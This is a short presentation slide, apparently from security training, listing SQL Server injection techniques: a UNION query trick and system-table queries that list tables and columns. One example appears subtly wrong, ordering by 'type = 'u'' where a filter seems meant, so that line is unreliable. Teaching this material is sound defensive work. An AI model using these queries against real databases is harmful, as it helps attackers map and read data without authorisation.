

# SQL Server Useful Injection Commands

UNION of two queries
	SELECT Name, Desc, Cost FROM Products
	WHERE Name like ‘%hat%’ UNION
	SELECT ‘1’, ‘1’, ‘1’  -- number of columns must match SELECT

On SQL Server use sysobjects to get list of tables
	SELECT * FROM sysobjects ORDER By type = ‘u’

Use syscolumns joined with sysobjects to get list of columns in tables
	SELECT so.name,sc.name FROM syscolumns AS sc
	INNER JOIN sysobjects AS so ON sc.id=so.id
	WHERE so.type='u' ORDER BY 1